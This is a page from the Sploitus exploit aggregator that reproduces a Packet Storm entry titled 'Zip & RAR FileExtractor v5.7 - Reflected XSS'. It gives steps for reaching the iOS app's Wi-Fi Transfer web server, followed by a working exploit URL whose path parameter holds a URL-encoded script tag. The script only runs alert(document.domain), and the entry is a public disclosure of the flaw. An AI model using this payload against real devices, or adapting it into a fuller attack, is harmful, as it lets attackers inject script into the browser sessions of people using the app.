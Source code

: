 ```yaml
---
title: Zip And RAR FileExtractor 5.7 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173188&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-29
fetch_date: 2025-10-04T11:46:13.414849
---
```


# Zip And RAR FileExtractor 5.7 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Zip And RAR FileExtractor 5.7 Cross Site Scripting

2023-06-28 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173188
# Exploit Title: Zip & RAR FileExtractor v5.7 - Reflected XSS
# Vendor Homepage: Penghui Zhao
# Software Link: https://apps.apple.com/tr/app/zip-rar-file-extractor/id769409043?l=en
# Date: 2023-06-20
# Exploit Author: tmrswrr
# Category : ios app
# Version: v5.7
# Tested on: Windows/Linux

## Description:

>> Go to Wi-Fi Transfer section in zip rar file extractor app
>> It will be create link : 192.168.1.104:8080
>> When open link your browser , write payload, xss payload execute page and see alert button

Url: http://192.168.1.104:8080/download?path=%22%3E%3Cscript%3Ealert(document.domain)%3C%2fscript%3E
Payload: %22%3E%3Cscript%3Ealert(document.domain)%3C%2fscript%3E
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)